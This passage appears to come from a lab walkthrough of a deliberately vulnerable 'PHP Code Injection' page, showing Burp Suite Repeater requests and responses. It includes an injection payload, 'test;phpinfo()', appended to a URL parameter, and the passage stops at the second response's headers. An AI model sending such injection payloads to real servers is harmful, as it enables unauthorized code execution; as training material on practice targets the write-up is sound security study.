 `burpsuite` > `Repeater`

`HTTP Request`:
```http
GET /phpi.php?message=test📌 HTTP/1.1
Host: 192.146.24.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=ninhe461b4eaiodht0pb5g9990; security_level=0
Upgrade-Insecure-Requests: 1
```
`HTTP Response`:
```http
HTTP/1.1 200 OK
Date: Wed, 27 Nov 2024 16:06:13 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 12741
Connection: close
Content-Type: text/html

<!DOCTYPE html>
<html>

[...]

    <h1>PHP Code Injection</h1>

    <p>This is just a test page, reflecting back your <a href="/phpi.php?message=test">message</a>...</p>
    
    <p><i>test</i></p>📌

[...]
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
GET /phpi.php?message=test;phpinfo()📌 HTTP/1.1
Host: 192.146.24.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=ninhe461b4eaiodht0pb5g9990; security_level=0
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
`HTTP Response`:
```http
HTTP/1.1 200 OK
Date: Wed, 27 Nov 2024 16:06:13 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
```